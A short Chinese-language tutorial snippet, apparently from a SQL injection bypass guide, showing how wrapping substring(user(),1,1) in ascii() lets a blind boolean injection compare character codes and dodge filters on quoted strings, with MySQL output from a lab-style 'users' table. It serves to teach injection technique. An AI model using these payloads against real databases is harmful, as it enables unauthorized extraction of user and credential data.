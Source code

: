 
# ascii 字符绕过 

截取出来的字符转为ascii码，来避开联合查询注入

```sql
mysql> select substring(user(),1,1);
+-----------------------+
| substring(user(),1,1) |
+-----------------------+
| r                     |
+-----------------------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and substring(user(),1,1)='r';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and ascii(substring(user(),1,1))=114;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

实战效果

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675833350899-e3a4884d-2100-4480-b031-c8b8c990d707.png)
